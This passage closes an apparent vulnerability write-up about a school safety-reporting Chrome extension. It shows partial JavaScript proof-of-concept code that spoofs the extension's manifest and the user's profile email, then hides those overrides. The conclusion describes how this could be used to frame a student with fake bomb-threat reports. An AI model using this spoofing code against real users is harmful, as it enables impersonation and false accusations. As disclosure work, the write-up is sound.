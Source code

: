 ```js
    manifestcontent.background.scripts.filter(s => s !== "ls_patcher.js");
}
manifestcontent.update_url = "https://lsrelay-extensions-production.s3.amazonaws.com/alert/eedb52aa05122163d09e7943f4b0c461fa386bbed76634910d169aadd3b23a19/chrome/AlertAgentChrome.xml"

// --- OVERRIDE fetch TO SPOOF manifest.json IF NECESSARY ---
window.fetch = function(...args) {
  if (typeof args[0] === "string" && args[0].includes("manifest.json")) {
    return Promise.resolve(
      new Response(JSON.stringify(manifestcontent), {
        headers: { "Content-Type": "application/json" }
      })
    );
  }
  return origFetch(...args);
};

// --- OVERRIDE chrome.runtime.getManifest ---
chrome.runtime.getManifest = function() {
  return manifestcontent;
};

// --- OVERRIDE chrome.identity.getProfileUserInfo ---
chrome.identity.getProfileUserInfo = function(details, callback) {
  if (typeof details === "function") {
    callback = details;
  }
  callback({
    id:    "123456789012345678901",
    email: target
  });
};

// --- HIDE THE OVERRIDES ---
window.fetch                          = hideOverride(window.fetch, origFetch);
chrome.runtime.getManifest            = hideOverride(chrome.runtime.getManifest, origManifest);
chrome.identity.getProfileUserInfo    = hideOverride(chrome.identity.getProfileUserInfo, origGetProfileUserInfo);
```

The rest of the PoC files will probably be on some other repo later. As you can see, this mostly works because of the hideOverride.

## Conclusion

You can't depend on security through obscurity as the main way of securing your safety reports down. Just imagine what the wrong person could've done with this, if they really hated someone: they could anonymously tip about a bomb threat, leaving the school in panic, and then spoofing a student and making them spread bomb threats and spoofing a report under their name/email: the school would take it so absurdly serious that it's a bit scary to think about, especially if fake details were also included in the report (ex. the bomb was in the kid's lunchbox and he was going to blow it up at an assembly or something). Very dark, but it would be possible and easy to do. And nobody would know who did it or how, because the PoC only modifies the client; the server isn't of those who know (those who know:).

Depending on how you look at it, I took either a year and a half to find this or less than one day (as I said, I've already looked into method hooking and cloaking before, and it was extremely easy applying the exact same concepts here).

- doxr